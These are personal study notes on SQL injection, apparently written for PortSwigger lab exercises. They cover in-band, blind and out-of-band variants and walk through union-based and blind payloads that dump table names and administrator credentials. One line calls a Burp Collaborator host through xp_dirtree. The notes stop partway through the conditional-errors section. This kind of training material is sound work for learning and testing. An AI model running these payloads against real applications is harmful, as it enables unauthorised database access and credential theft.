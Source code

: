 # Portswigger lab Scripts with notes

1. What is SQL Injection?

--> Vulnerability that interferes SQL queries that application makes to a database. 

           Impact: View sensitive information, alter data and delete data.
           It bypasses SQL queries. Suppose a login page asks for username and password. At username you add admin'-- . The SQL query looks like SELECT * from users where username = 'admin' --, password = . -- comments out rest of the query and ' closes the string, logs in as admin. 


2. Types of SQL Injection?

a. In-band (Classic): When SQL payload reflects on the application. Easy to exploit. 

       i) Error-based: Forces database to generate error, giving attacker information.
                      Eg: www.evil.com/app.php?id=' . It gives output as eror in sql syntax with sql server version.
      
      ii) Union-based: UNION SQl operator to combine result of two queries into single result.
                     Eg: www.evi.com/app.php?id=' UNION SELECT username, password FROM users-- . It gives username and password.
      
b. Inferential (Blind): No transfer of data via web app. Only performs when there are certain codition. Takes Long to exploit.
     
        i) Boolean-based: Uses boolean condition to return different result depending whether query returns true or false result.
                          URL: www.evil.com/app.php?id=1. 
                          Payload #1(False): www.evil.com/app.php?id=1 and 1=2. Doesn't give product detail because false.
                          Payload #2(True): www.evil.com/app.php?id=1 and 1=1. Givs product detail because true.
                          Backend Query: select title ftom product where id=1 and 1=1
                          
       ii) Time-based: Delays the result for a specific time, indicating SQL query presence. Eg: If first character of admin hash passowrd is a',wait for 10 seconds. If it takes 10 seconds, it contains a has first password otherwise it doesnot.
      
c. Out-of-band:

         Using protocol to trigger SQL Injection. Results come to your system like burpcollab.  Eg: '; exec master..xp_dirtree '//burpcollaborator/a'-- 


3. How to find SQL Injection?

--> It depends on blackbox(little info given) and whitebox(source-code given)

       Blackbox: 

              1. Map the aplication: input vectors, endpoints, how app works, etc.
              2. Fuzzing: add SQl characters such as ' or " and look for errors, submit boolean condition, time delay query and out of band query to look for responses.

       Whitebox:

              1. Enable web server and database logging.
              2. Map the application: regex search in code that talk to database.
              3. Code review: Follow code path for input vectors.
              4. Tesst SQLi vulnerability.

********** ERROR BASED **********

***** STEP #1: Determine # of columns *****

 Way #1: UNION
     
      select ? from table1 UNION select NULL, NULL--
       --> error: incorrecet number of columns.
       
      select ? from table1 UNION select NULL, NULL, NULL--
       --> 200 ok: correct number of columns.
       
 Way #2: ORDER BY
 
        select a,b from table1 order by 2-- 
                               order by 2#
        
***** STEP #2: Determine data type of column *****

        select a, b, c from table1 UNION select 'a', NULL, NULL--
        select a, b, c from table1 UNION select NULL, 'a', NULL--
        select a, b, c from table1 UNION select NULL, NULL, 'a'--
         --> error: column is not type text
         --> no error: column is type text.

        for oracle: 'union select 'a', 'a' from dual -- 


***** STEP #3: Finding database version *****

     oracle: select banner from v$version
             select version from v$instance

     mysql and microsoft: select @@version

     postgresql: select version()

        for oracle: ' union select banner, null from v$version--
        for mysql and microsoft: 'UNION select @@version,'a'%23


***** STEP #4: Finding username and password *****

        union select username, password from users--

       ** if only one field works concatenate string based on database

         union select null, username || password from users --  > postgresql and oracle
          "     "       " , username + password from users -- > microsoft
          "      "      " , username  password from users -- > mysql
                             concat(username,password)

      Found username and password: Gifts' union select null, username || '~' || password from users--
            administrator~z5wp402vuidu2y59oaai


***** STEP #5: Finding Database Content *****

        oracle:	SELECT * FROM all_tables
                SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' 

        non-oracle: SELECT * FROM information_schema.tables
                    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

        1) * is a place holder for tables NAME. search For information_schema.tables on google to get table names  #(users_table)

               non-oracle:  'union select table_name, null from information_schema.tables --
               oracle: ' union select table_name,null from all_tables--
        
        2) It contains lists of database name. lets pick users_acinmi for non-oracle and users_roomix for oracle then  #(username_column,password_column)
              non-oracle: ' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_acinmi' --
                                     output: username_wuiqfp
                                             password_fhdiit 

                oracle: ' union select column_name,null from all_tab_columns where table_name='USERS_ROOIMX'--
                                     output: USERNAME_ICWHMD
                                             PASSWORD_DETRFJ                                 
 

        3) Output the username and password  #(administrator_table)

                non-oracle: ' UNION select username_wuiqfp, password_fhdiit from users_acinmi--
                                    output: administrator
	                                    9ro90x5y3ztmsv21nwm0

                oracle: ' union select USERNAME_ICWHMD,PASSWORD_DETRFJ from USERS_ROOIMX--
                                     output: administrator
	                                     x7e2jmfnqacfb1bxe3m0



********** BLIND SQL **********

*** Blind SQLI with conditional responses ***

1. Confirm that the paramter is vulnerable to blind SQLi

        cookie query:   select tracking-id from tracking-table where trackingId='23f23fdxqd'

                -> If tracking id exists -> query return value -> welcome back msg
                -> If tracking id doesn't exists -> query returns nothing -> no welcome msg

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=1--'
                -> TRUE -> WELCOME back msg

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and 1=0--'
                -> FALSE -> no WELCOME back msg

2. Confirm that we have users table

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select 'x' from users LIMIT 1) = 'x'--'
                -> TRUE -> users table exists in database

3. Confirm that username administrator exists users table

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator') = 'administrator'--'
                -> administrator user exists

4. Enumerate password of the administrator user

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select username from users where username='administrator' and LENGTH (password)>1) = 'administrator'--' 
                -> Use burp to check how many length is there in the password. $1$. 20 returned false, so it contains 20 character.

        **** Using substring to find password. It checks one by one character ****

        select tracking-id from tracking-table where trackingId='23f23fdxqd' and (select substring(password,1,1) from users where username='administrator') = 'a'--'
                -> burp,(payload-type=bruteforcer): $a$. If 1st letter contains letter 'c' go to 2nd letter.
                -> burp payload(cluster-bomb): ' and (select substring(password,$1$,1) from users where username='administrator' and LENGTH (password)>1) = '$a$'--' 
                -> 1st type: number from 1 to 20. 2nd type: bruteforcer.



***** Blind SQLI with conditional errors *****

1. Confirm that the parameter is vulnerable

        ' || (select '') || '  > 200ok: non-oracle
        ' || (select '' from dual) || '  > 200ok: oracle

2. Confirm that the users table exists in the database